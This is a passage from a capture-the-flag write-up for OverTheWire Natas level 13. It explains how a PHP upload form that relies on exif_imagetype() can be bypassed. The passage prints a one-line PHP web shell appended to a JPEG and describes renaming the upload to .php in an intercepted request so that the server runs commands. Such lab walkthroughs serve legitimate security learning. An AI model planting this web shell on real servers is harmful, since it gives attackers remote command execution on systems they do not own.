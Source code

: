    ```php
           if($err === 2){
               echo "The uploaded file exceeds MAX_FILE_SIZE";
           } else{
               echo "Something went wrong :/";
           }
       } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
           echo "File is too big";
       } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
           echo "File is not an image";
       } else {
           if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
               echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
           } else{
               echo "There was an error uploading the file, please try again!";
           }
       }
   } else {
   ?>
   ```

3. The `exif_imagetype()` function is used to verify if the uploaded file is an image by checking its magic bytes. Magic bytes are specific sequences of bytes at the beginning of a file that indicate its format. This function does not consider the file extension, which can be exploited.

4. To bypass this check, I created a polyglot JPEG file. A polyglot file is a file that is valid in more than one format. I took a small JPEG image and appended PHP code to it:
   ```bash
   echo "<?php system(\$_GET['cmd']); ?>" >> natas13_HiddenCodeInside.jpg
   ```
   ![Payload](/assets/img/overthewire/natas11_15/natas13_2.png)

5. After uploading the modified JPEG file, I intercepted the request and changed the file extension from `.jpg` to `.php`. This allowed the server to execute the PHP code embedded in the image.